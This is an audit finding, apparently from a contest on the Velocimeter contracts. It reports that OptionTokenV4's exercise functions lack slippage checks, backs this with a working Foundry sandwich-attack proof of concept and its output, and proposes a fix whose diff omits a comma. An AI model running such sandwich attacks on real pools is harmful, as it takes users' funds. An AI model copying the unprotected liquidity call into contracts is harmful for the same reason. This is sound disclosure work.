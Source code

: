 Polite Butter Gazelle

Medium

# `OptionTokenV4::exerciseVe` and `OptionTokenV4::exerciseLp` are missing checks for minimum LP tokens returned, causing loss of funds

## Summary

`OptionTokenV4::exerciseVe` and `OptionTokenV4::exerciseLp` allows users to exercise their `oFLOW` tokens by burning them and pulling `paymentToken` (i.e., DAI) from the caller, which is used to add liquidity for the respective `FLOW/paymentToken` pool in return for LP tokens. `OptionTokenV4::exerciseVe` will lock these LP tokens to mint a `veNFT` to the caller, whereas `OptionTokenV4::exerciseLp` will lock these tokens in the pool's gauge for rewards.

There is a problem regarding the amount of LP tokens returned, there is no slippage parameter enforced that allows the caller to specify a minimum amount returned. This allows for the following scenarios where the innocent user will receive less LP tokens than expected from adding liquidity, causing a loss of funds:

1. Attacker executes swaps before and after the transaction is executed to manipulate the price of the pool for a profit (sandwich attack)
2. Amount of liquidity in the pool changes prior to execution (large amount of transactions, swaps, etc)

## Vulnerability Detail

Let's take a look at `OptionTokenV4::exerciseVe`, but note that the exact issue applies to `OptionTokenV4::exerciseLp` as well.

[OptionTokenV4.sol#L593-L650](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L593-L650)
```javascript
    function _exerciseVe(
        uint256 _amount,
        uint256 _maxPaymentAmount,
        uint256 _discount,
        address _recipient
    ) internal returns (uint256 paymentAmount, uint256 nftId,uint256 lpAmount) {
        
        ...
            
        // burn callers tokens
        _burn(msg.sender, _amount);
        
        ...

        _safeTransferFrom(
            paymentToken,
            msg.sender,
            address(this),
            paymentGaugeRewardAmount + paymentAmountToAddLiquidity
        );

        ...

@>      (, , lpAmount) = IRouter(router).addLiquidity(
            underlyingToken,
            paymentToken,
            false,
            _amount,
            paymentAmountToAddLiquidity,
            1,
            1,
            address(this),
            block.timestamp
        );

        // lock underlying tokens to veFLOW
        _safeApprove(address(pair), votingEscrow, lpAmount);
        nftId = IVotingEscrow(votingEscrow).create_lock_for(
@>          lpAmount,
            getLockDurationForLpDiscount(_discount),//FULL_LOCK, // TODO decide
            _recipient
        );

        ...
    }
```

We can see that the `lpAmount` from adding liquidity is directly locked, there is no check for the minimum amount returned. 

As mentioned above, this allows for scenarios where an attacker could sandwich attack this call, or the amount of liquidity in the pool can change prior to execution, causing the user to receive far less `lpAmount` than expected, which is immediately locked.

> <strong>Note:</strong>
>
> It's important to state that although there is a deadline mechanism enforced for these functions, that is not enough to prevent sandwich attacks or other large swaps before function execution, as transactions can be sped up by paying more gas fees.

## Proof of Concept

<details>
<summary>Coded PoC</summary>
<br>

There are two test functions for this test. The first test function displays how many LP tokens the innocent user receives without any sandwich attacks/prior swaps on the pool.

The second test runs the exact test as the first test, but with an attacker sandwich attacking the innocent user.

#### First test:

Add the following to `test/OptionTokenV4.t.sol` and run `forge test --mt testWithoutSandwichAttack -vv`

```javascript
    function testWithoutSandwichAttack() public {
        vm.startPrank(address(owner));
        FLOW.approve(address(oFlowV4), TOKEN_100K);
        // mint Option token to owner 2
        oFlowV4.mint(address(owner2), TOKEN_100K);
        washTrades();
        flowDaiPair.approve(address(gauge),TOKEN_100K);
        vm.stopPrank();

        // innocent user exercises oFLOW
        vm.startPrank(address(owner2));
        DAI.approve(address(oFlowV4), 1e30);
        uint256 daiBefore = DAI.balanceOf(address(owner2));
        (uint256 paymentAmount, uint256 lpAmount) = oFlowV4.exerciseLp(TOKEN_100K, TOKEN_100K, address(owner),20,block.timestamp);
        uint256 daiAfter = DAI.balanceOf(address(owner2));
        vm.stopPrank();

        console.log("LP amount received from innocent user's add liquidity: ", lpAmount);
    }
```

#### Second test:

Add the following to `test/OptionTokenV4.t.sol` and run `forge test --mt testSandwichAttack -vv`

```javascript
    function testSandwichAttack() public {
        uint256 paymentAmount;
        uint256 lpAmount;
        vm.startPrank(address(owner));
        FLOW.approve(address(oFlowV4), TOKEN_100K);
        // mint Option token to owner 2
        oFlowV4.mint(address(owner2), TOKEN_100K);
        washTrades();
        flowDaiPair.approve(address(gauge),TOKEN_100K);
        vm.stopPrank();

        // attacker swaps FLOW -> DAI prior to execution
        vm.startPrank(address(owner));
        FLOW.approve(address(router), 1e50);
        DAI.approve(address(router), 1e50);

        uint256 daiBeforeSwap = DAI.balanceOf(address(owner));
        uint256 flowBeforeSwap = FLOW.balanceOf(address(owner));
        router.swapExactTokensForTokensSimple(
            1e23,
            1,
            address(FLOW),
            address(DAI),
            false,
            address(owner),
            block.timestamp
        );
        uint256 flowAfterSwap = FLOW.balanceOf(address(owner));
        uint256 flowSpent = flowBeforeSwap - flowAfterSwap;
        uint256 daiAfterSwap = DAI.balanceOf(address(owner));
        uint256 daiEarned = daiAfterSwap - daiBeforeSwap;
        vm.stopPrank();

        // innocent user exercises oFLOW, but will receive less LP tokens
        vm.startPrank(address(owner2));
        DAI.approve(address(oFlowV4), 1e30);
        (paymentAmount, lpAmount) = oFlowV4.exerciseLp(TOKEN_100K, TOKEN_100K, address(owner),20,block.timestamp);
        vm.stopPrank();
        console.log("LP amount received from innocent user's add liquidity: ", lpAmount);

        // attacker backruns and swaps from DAI back to FLOW tokens
        flowBeforeSwap = FLOW.balanceOf(address(owner));
        router.swapExactTokensForTokensSimple(
            daiEarned,
            1,
            address(DAI),
            address(FLOW),
            false,
            address(owner),
            block.timestamp
        );
        flowAfterSwap = FLOW.balanceOf(address(owner));
        uint256 flowEarned = flowAfterSwap - flowBeforeSwap;
        console.log("Total FLOW tokens attacker profited: ", flowEarned - flowSpent);
    }
```
</details>

### Console Output

```text
Running 1 test for test/OptionTokenV4.t.sol:OptionTokenV4Test
[PASS] testWithoutSandwichAttack() (gas: 3341714)
Logs:
  LP amount received from innocent user's add liquidity:  100000000099372902838239

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 16.60ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

```text
Running 1 test for test/OptionTokenV4.t.sol:OptionTokenV4Test
[PASS] testSandwichAttack() (gas: 3501916)
Logs:
  LP amount received from innocent user's add liquidity:  50077387812628011357118
  Total FLOW tokens attacker profited:  19920544988248355232335

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 16.13ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

We can see that the innocent user was supposed to receive `100000000099372902838239` LP tokens, but instead received `50077387812628011357118` (which is far less) LP tokens due to the sandwich attack where the attacker profited `19920544988248355232335` FLOW tokens.

## Impact

Loss of funds for users, less LP tokens locked than expected, attacker can profit from sandwich attacks

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L593-L650

## Tool used

Manual Review

## Recommendation

Incorporate slippage control for minimum amount of LP tokens received, which the user can specify. Ensure to apply the changes to both `OptionTokenV4::exerciseVe` and `OptionTokenV4::exerciseLp`:

```diff
    function exerciseVe(
        uint256 _amount,
        uint256 _maxPaymentAmount,
+       uint256 _minLpOut
        address _recipient,
        uint256 _discount,
        uint256 _deadline
    ) external returns (uint256, uint256,uint256) {
        if (block.timestamp > _deadline) revert OptionToken_PastDeadline();
        return _exerciseVe(_amount, _maxPaymentAmount,_discount, _recipient);
    }
```

```diff
        (, , lpAmount) = IRouter(router).addLiquidity(
            underlyingToken,
            paymentToken,
            false,
            _amount,
            paymentAmountToAddLiquidity,
            1,
            1,
            address(this),
            block.timestamp
        );

+       require(lpAmount >= _minLpOut);

        // lock underlying tokens to veFLOW
        _safeApprove(address(pair), votingEscrow, lpAmount);
        nftId = IVotingEscrow(votingEscrow).create_lock_for(
            lpAmount,
            getLockDurationForLpDiscount(_discount),//FULL_LOCK, // TODO decide
            _recipient
        );
```